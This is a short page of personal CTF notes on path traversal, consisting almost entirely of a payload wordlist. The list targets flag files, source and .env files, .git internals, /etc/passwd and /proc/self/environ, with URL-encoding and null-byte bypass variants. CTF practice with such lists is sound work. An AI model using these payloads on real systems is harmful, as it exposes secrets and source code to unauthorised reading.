

repository: jh1h1h/portfolio · page: docs/procedure/Path Traversal.html · generator: docusaurus

Have not tested if this wordlist works against all WAF/encodings (prolly doesn't)

Try this wordlist:
```
../flag.txt
../../flag.txt
../../../flag.txt
../../../../flag.txt
../flag
../../flag
../../../flag
../secret.txt
../../secret.txt
../note.txt
../../note.txt
../app.py
../../app.py
../main.py
../../main.py
../server.py
../../server.py
../run.py
../../run.py
../config.py
../../config.py
../settings.py
../../settings.py
../.env
../../.env
../requirements.txt
../../requirements.txt
.git/HEAD
.git/config
.git/COMMIT_EDITMSG
.git/logs/HEAD
.git/refs/heads/main
.git/refs/heads/master
flag.txt
flag.svg
flag
secret.svg
hidden.svg
note.svg
../flag.txt%00.svg
../../flag.txt%00.svg
..%2fflag.txt
..%2f..%2fflag.txt
..%2f..%2f..%2fflag.txt
....//flag.txt
....//....//flag.txt
%2e%2e%2fflag.txt
%2e%2e%2f%2e%2e%2fflag.txt
..%252fflag.txt
..%252f..%252fflag.txt
/etc/passwd
/etc/hostname
/proc/self/environ
/proc/self/cmdline
/proc/self/cwd/flag.txt
/proc/self/cwd/flag
/proc/self/cwd/app.py
/proc/self/cwd/main.py
/proc/self/cwd/server.py
/proc/self/cwd/.env
```
